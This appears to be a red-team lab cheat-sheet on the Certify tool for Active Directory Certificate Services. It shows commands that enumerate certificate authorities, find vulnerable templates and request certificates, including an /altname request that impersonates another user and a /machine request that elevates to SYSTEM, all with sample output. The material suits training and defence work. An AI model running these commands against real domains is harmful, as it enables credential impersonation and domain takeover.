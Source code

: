 [GitHub Link](https://github.com/GhostPack/Certify)

## cas

---

Finds ADCS Certificate Authorities

``` 
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas
```

This will output lots of useful information, including the root CA and subordinate CAs:

```
Enterprise CA Name            : ca
DNS Hostname                  : dc-1.cyberbotic.io
FullName                      : dc-1.cyberbotic.io\ca
Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
Cert SubjectName              : CN=ca, DC=cyberbotic, DC=io
Cert Thumbprint               : 95AF7043BD6241CEE92E6DC6CB8D22494E396CCF
Cert Serial                   : 17DDB078863F61884B680FE6F59211AD
Cert Start Date               : 8/15/2022 3:42:59 PM
Cert End Date                 : 8/15/2047 3:52:59 PM
Cert Chain                    : CN=ca,DC=cyberbotic,DC=io

Enterprise CA Name            : sub-ca
DNS Hostname                  : dc-2.dev.cyberbotic.io
FullName                      : dc-2.dev.cyberbotic.io\sub-ca
Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
Cert SubjectName              : CN=sub-ca, DC=dev, DC=cyberbotic, DC=io
Cert Thumbprint               : 697B1C2CD65B2ADC80C3D0CE83A6FB889B0CA08E
Cert Serial                   : 13000000046EF818036CF8C99F000000000004
Cert Start Date               : 8/15/2022 4:06:13 PM
Cert End Date                 : 8/15/2024 4:16:13 PM
Cert Chain                    : CN=ca,DC=cyberbotic,DC=io -> CN=sub-ca,DC=dev,DC=cyberbotic,DC=io
```

The Cert Chain is useful to note, as this shows us that "sub-ca" in the DEV domain is a subordinate of "ca" in the CYBER domain.  The output will also list the certificate templates that are available at each CA, as well as some information about which principals are allowed to manage them.


## find

---

Finds misconfigured ADCS templates.

```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```

![](https://files.cdn.thinkific.com/file_uploads/584845/images/d7e/9d6/306/customuser.png)

Let's go through the key parts of this output.

1. This template is served by _sub-ca_.
2. The template is called _CustomUser_.
3. _ENROLLEE_SUPPLIES_SUBJECT_ is enabled, which allows the certificate requestor to provide any SAN (subject alternative name).
4. The certificate usage has _Client Authenticatio__n_ set.
5. _DEV\Domain Users_ have enrollment rights, so any domain user may request a certificate from this template.

  If a principal you control has WriteOwner, WriteDacl or WriteProperty, then this could also be abused.


## request

---

Requests certificate for user.

### Current User

Requests a certificate for the current user.

```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:User
```

### Custom User

Requests a certificate for the specified user.

```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb
```


### Computer

The `/machine` parameter is required to auto-elevate to SYSTEM and assume the identity of the computer account.

```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:Machine /machine
```